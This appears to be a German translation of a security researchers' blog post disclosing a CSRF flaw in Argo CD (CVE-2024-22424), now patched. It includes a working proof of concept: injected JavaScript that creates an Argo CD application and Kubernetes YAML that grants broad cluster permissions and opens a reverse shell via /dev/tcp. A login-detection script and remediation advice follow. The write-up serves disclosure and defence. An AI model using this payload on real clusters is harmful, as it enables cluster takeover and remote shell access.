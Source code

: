 # Argo CD (CSRF)

Die Argo CD ist der Schlüssel zu Produktionsservern und eine wichtige Komponente von CI/CD-Pipelines.

Bei einem kürzlichen Engagement lernten wir Argo CD kennen. Es wird auf derselben übergeordneten Domäne 
(„gleiche Site“) wie ein anderes von uns kontrolliertes Asset gehostet, 
daher haben wir über clientseitige Angriffsvektoren nachgedacht. 

## The vulnerability

Es ist seit Jahren öffentlich bekannt, dass die gesamte Argo CD-[[API]] anfällig für Cross-Site Request Forgery (CSRF) ist. 
Wir gehen davon aus, dass das Team dem Problem keine Priorität eingeräumt hat, da es keine Beweise dafür gibt, dass es sich um eine schwerwiegende Sicherheitslücke handelt.

Moderne Browser implementieren das Lax SameSite-Cookie-Attribut, um CSRF zu verhindern, es ist jedoch nicht narrensicher. 
Das samesite-Attribut wird unbrauchbar, wenn sich der Ursprung in derselben übergeordneten Domäne wie das Ziel befindet.

Um dies zu testen, erstellen wir eine Beispielumgebung mit Argo CD v2.8.2. 
Ein Angreifer kontrolliert Inhalte von marketing.victim.com (z. B. über Stored XSS) und möchte argocd.internal.victim.com ins Visier nehmen.

Der folgende Proof of Concept ermöglicht es dem Angreifer, über Argo CD einen Pod mit Administratorrechten auf dem Kubernetes-Cluster zu erstellen. 
Dieses Stück JavaScript wird auf der Homepage von marketing.victim.com eingefügt:

```JavaScript

var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://argocd.internal.victim.com/api/v1/applications');
xhr.setRequestHeader('Content-Type', 'text/plain')
xhr.withCredentials = true;
xhr.send('{"apiVersion":"argoproj.io/v1alpha1","kind":"Application","metadata":
{"name":"test-app1"},"spec":{"destination":
{"name":"","namespace":"default","server":"https://
kubernetes.default.svc"},"source":{"path":"argotest1","repoURL":"https://
github.com/califio/argotest1","targetRevision":"HEAD"},"sources":
[],"project":"default","syncPolicy":{"automated":
{"prune":false,"selfHeal":false}}}}')

```

Dabei verweist repoURL auf ein Repository mit der Yaml-Definition wie:


```JavaScript

apiVersion: v1
kind: ServiceAccount
metadata:
  name: my-sa
---
apiVersion: v1
kind: Pod
metadata:
  name: my-pod
spec:
  serviceAccountName: my-sa
  containers:
  - name: ubuntu
    image: ubuntu:latest
    command: ["bash", "-c", "bash -i >& /dev/tcp/10.0.0.1/4242 0>&1"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: my-role
rules:
- apiGroups: [""]
  resources: ["*"]
  verbs: ["*"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: my-rolebinding
subjects:
- kind: ServiceAccount
  name: my-sa
  namespace: default
roleRef:
  kind: ClusterRole
  name: my-role
  apiGroup: rbac.authorization.k8s.io

```

Dann warte. Ein bei argocd.internal.victim.com angemeldeter Mitarbeiter führt beim Besuch von marketing.victim.com zu einer Kompromittierung des Kubernetes-Clusters.
Dies ist möglich, weil:

	+ Argo CD berücksichtigt den Content-Type-Header nicht. Wenn dies der Fall wäre, hätte die Anfrage eine Preflight-[[CORS]]-Anfrage auf „application/json“ CT ausgelöst und der Angriff schlägt fehl.
 
	+ Der Angreifer benötigt keinerlei Kenntnisse, um einen gültigen JSON zu erstellen. Der Clusterstandort, der Projektname usw. sind standardmäßig verfügbar.

Darüber hinaus können wir den Exploit gezielt einsetzen. Auf marketing.victim.com gibt es einen netten kleinen Trick, um zu überprüfen, ob der aktuell surfende Benutzer bei der Ziel-Argo-CD angemeldet ist oder nicht (Idee mit freundlicher Genehmigung eines Freundes von Calif):

```JavaScript

<script src="https://argocd.internal.victim.com/api/v1/projects"
onload="alert('Logged in to argocd')" onerror="alert('NOT logged in')"></
script>

```

Dies liegt daran, dass die [[API]] bei angemeldeten Anfragen 200 und andernfalls 403 zurückgibt.

In Wirklichkeit haben wir gewartet, bis unser Kunde etwas auf seiner Marketing-Website angekündigt hat. 
Dies lockte eine große Anzahl von Mitarbeitern dazu, die Nachrichten zu lesen, und wir bekamen sofort eine Shell.

## Suggestion

Wir haben dies Argo CD im September 2023 gemeldet, aber keine Antwort erhalten. Abgesehen von einem Patch schlagen wir die folgenden Abhilfemaßnahmen vor:

	+ Migrieren Sie Argo CD von übergeordneten Domänen, die nicht dieselbe Vertrauensstufe haben.

	+ Verkürzen Sie die Standardsitzungszeit von 24 Stunden auf 30 Minuten oder weniger

## Update

Das Team von Argo CD war seit der Veröffentlichung dieses Blogbeitrags ansprechbar und hat einige Tage später ein Update veröffentlicht. 
Dieses Problem ist jetzt CVE-2024-22424 und in den Versionen 2.9.4, 2.8.8 und 2.7.16 behoben.

Die erste Lösung bestand darin, gorilla-csrf zur Argo-CD hinzuzufügen. 
Ich hatte das Gefühl, dass dies nicht der richtige Weg war, das Problem anzugehen, und empfahl ihnen, den Content-Type-Header „application/json“ zu erzwingen. 
Das war ihre letzte Lösung. 

Wir danken den Argo CD-Betreuern für ihre Offenheit gegenüber Rückmeldungen und den reibungslosen Behebungsprozess.










